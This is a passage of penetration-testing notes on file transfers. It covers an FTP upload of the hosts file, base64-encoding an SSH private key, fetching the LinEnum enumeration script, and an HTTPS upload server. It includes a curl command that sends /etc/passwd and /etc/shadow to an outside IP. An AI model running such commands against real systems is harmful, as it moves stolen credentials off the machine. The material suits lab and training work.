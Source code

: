 ```powershell

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
## Linux File Transfers
### Base64 Encode & Decode
1. **Check MD5 Hash**
```bash
md5sum id_rsa
```
2. **Encode SSH Key to Base64**
```bash
cat id_rsa |base64 -w 0;echo
```
3. **Decode the File**
```bash
echo -n 'justimaginethisissomerandomhashbecauseyoudontcareandidontcare=` | base64 -d > id_rsa
```

### Web Downloads with Wget and cURL
1. **Download a File Using wget**
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
2. **Download a File Using cURL**
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Web Upload
Mechanism is similar to Windows web upload using `uploadserver` module:
```bash
sudo python3 -m pip install --user uploadserver
```
#### Secure HTTPS Web Server
1. **Start Web Server**
```bash
sudo python3 -m pip install --user uploadserver
```
2. **Create a Self-Signed Certificate**
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
3. **Start Web Server**
```bash
mkdir https && cd https
```
```bash
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
- **Upload Multiple Files**
```bash
curl -X POST https://13.13.13.13/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
#### Alternative File Transfer Method
- **Creating a Web Server with Python3**
```bash
python3 -m http.server
```
- **Creating a Web Server with Python2.7**